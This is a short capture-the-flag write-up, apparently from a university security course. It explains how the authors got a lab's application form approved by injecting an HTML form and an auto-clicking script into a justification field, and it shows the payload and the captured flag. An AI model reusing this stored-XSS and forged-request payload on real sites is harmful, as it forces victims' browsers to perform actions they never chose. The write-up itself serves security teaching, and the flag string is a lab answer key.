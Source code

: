 # Optional CTF - Apply for a flag II

- We start this challenge by analysing the two pages (the one we can input the justifification and the other page where we wait for the accpetance decision).

- After some time, we got to the conclusion that we need to make code injection in the input form (on the justfication field).

- So , in order to get the flag, our justification would need to be accepted. After that, we would need to create an input that when clicked would redirect the page to the request accpetance page.

- So, we use the below code, and injected in the justification field.

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/71b93db6ec908d8868bed4aba06b5977fc8aaaa8/approve" role="form">     
    <div class="submit">         
        <input type="submit" id="giveflag" value="Give the flag">    
    </div> 
</form>  

<script type="text/javascript"> 	
    document.querySelector('#giveflag').click(); 
</script>
``` 
<br>

![input justification - code injection](CTFs/Opcionals/Img/3-Apply_For_Flag_2/1.input.png)
<br>

- When clicking in the `Submit` button, we were redirected to the jutification for the application page. After some time, we reloaded the page and there was the flag.

![justification page - flag](CTFs/Opcionals/Img/3-Apply_For_Flag_2/3.flag.png)
<br>

> :warning: **If the error below appears instead of the justification page, you may need to disable the javascript on the definitions of your browser!** 
![browser error - disable javascript](CTFs/Opcionals/Img/3-Apply_For_Flag_2/2.forbidden_warning.png)


### Flag

`flag{67c0cc6c236606a94a1ac938a41bd9fc}`
